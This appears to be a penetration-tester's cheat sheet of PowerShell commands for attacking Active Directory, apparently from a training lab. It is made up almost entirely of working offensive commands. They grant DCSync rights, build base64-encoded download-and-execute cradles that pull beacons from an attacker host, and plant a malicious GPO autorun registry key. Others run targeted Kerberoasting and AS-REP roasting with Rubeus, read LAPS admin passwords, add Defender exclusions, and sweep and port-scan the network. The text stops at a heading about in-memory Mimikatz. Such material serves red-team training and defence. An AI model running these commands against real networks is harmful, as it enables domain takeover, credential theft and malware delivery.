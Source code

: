 
- Give current user DCSync rights
	- `Add-DomainObjectAcl -Rights DCSync`
- Convert command to encoded string:
	- `$str = "IEX ((new-object net.webclient).downloadstring('http://10.8.0.6:80/http-beacon'))"`
	- `[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))`
- Encode a payload:
```PowerShell
if ($args.count -ne 1) { Write-Host "Too many args" }
else {
"String to encode: " + $Args[0]
"Encoded: "
$str = $Args[0]
$encoded = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
write-host $encoded
}
```
- Group Policy
	- Create a new, empty GPO
		- `New-GPO`
	- Link a GPO to a site, domain, or OU
		- `New-GPLink`
	- Configures a Registry preference item under either HKCU or HKLM
		- `Set-GPPrefRegistryValue`
	- Configure registry-based policy settings under HKCU or HKLM
		- `Set-GPRegistryValue`
	- Generate GPO report in XML or HTML
		- `Get-GPOReport`
	- Example exploitation:
		- Create a new GPO and link to an OU over which you have permissions
			- `New-GPO -Name 'Cthulhu GPO' | New-GPLink -Target 'OU=3268,OU=Workstations,DC=cyberbotic,DC=io'`
		- Write an autorun Registry key to machines in that OU
			- `Set-GPPrefRegistryValue -Name 'Cthulhu GPO' -Context Computer -Action Create -Key 'HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run' -ValueName 'Updater' -Value 'powershell -w 1 -c "iex (new-object net.webclient).downloadstring(''http://10.8.0.6/HTTPGrunt.ps1'')"' -Type ExpandString`
- Targetted Kerberoast (possible if we have GenericAll permissions on a user)
	- `Set-DomainObject -Identity jadams -Set @{serviceprincipalname="fake/NOTHING"}`
	- `Get-DomainUser -Identity jadams -Properties ServicePrincipalName`
	- `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:jadams /nowrap`
- Targetted ASREPRoasting
	- `Get-DomainUser -Identity jadams | ConvertFrom-UACValue`
	- `Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}`
	- `Get-DomainUser -Identity jadams | ConvertFrom-UACValue`
	- `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:jadams /nowrap`
	- `powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}`
	- `powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue`
- Read LAPS admin password
	- `Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd`
- Enumerate exclusions
	- `Get-MpPreference | select Exclusion*`
	- `Parse-PolFile .\Registry.pol`
- Add exclusion
	- `Set-MpPreference -ExclusionPath "<path>"`
- Find Shares
	- `Find-DomainShare [-CheckShareAccess]`
- Ping an IP range
	- `1..254 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}`
- Port Scan an IP
	- `1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "Open port on - $_"} 2>$null`
- LOL Kerberoast
	- Single SPN: `Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"`
- Mimikatz in memory w/ LSASS Injection